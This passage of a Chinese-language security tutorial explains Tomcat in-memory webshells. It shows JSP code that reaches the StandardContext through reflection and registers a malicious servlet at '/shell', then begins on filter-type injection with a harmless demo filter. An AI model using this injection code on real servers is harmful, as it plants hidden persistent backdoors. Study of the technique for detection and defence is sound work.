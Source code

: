 ```jsp
    f.setAccessible(true);
    ApplicationContext appCtx = (ApplicationContext)f.get(ctx);

    f = appCtx.getClass().getDeclaredField("context");
    f.setAccessible(true);
    StandardContext standardCtx = (StandardContext)f.get(appCtx);
    System.out.println(standardCtx);

    // 用Wrapper对其进行封装
    org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
    newWrapper.setName("jweny");
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());

    // 添加封装后的恶意Wrapper到StandardContext的children当中
    standardCtx.addChild(newWrapper);

    // 添加ServletMapping将访问的URL和Servlet进行绑定
    standardCtx.addServletMappingDecoded("/shell","jweny");

%>
```

然后，上传测试：

![截图](4e8b3dfca3652fbfb82a0728b9a66f18.png)

![截图](cb620591f46a9841bde89382d11a348f.png)

![截图](14a615eb64cf35f75f6244eb5edf9462.png)

### 2、Filter型

类似的，我们简化前面有关于Filter的类型：
![截图](36e941bfeb39b976d12345b901fb1aba.png)

根据此图，我们可以了解到当我们客户端发起请求时候，会首先经过一系列`filter`然后到达我们的`Servlet`容器。那么设想，如果我们可以动态的创建一个恶意的`filter`并置于`filterchains`的最前端，那么此时传入的任何数据都会经由我们的恶意`filter`最先执行！

#### （1）filter demo

这里，我们继续进一步的写一个DemoFilter：

```java
package com.yuan;

import javax.servlet.*;
import java.io.IOException;

public class filterDemo implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("Filter初始....");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        System.out.println("拦截并进行过滤操作......");
        // 放行
        chain.doFilter(request, response);  //调用filterchain中的dofilter来激活Servlet中的service方法
    }
    @Override
```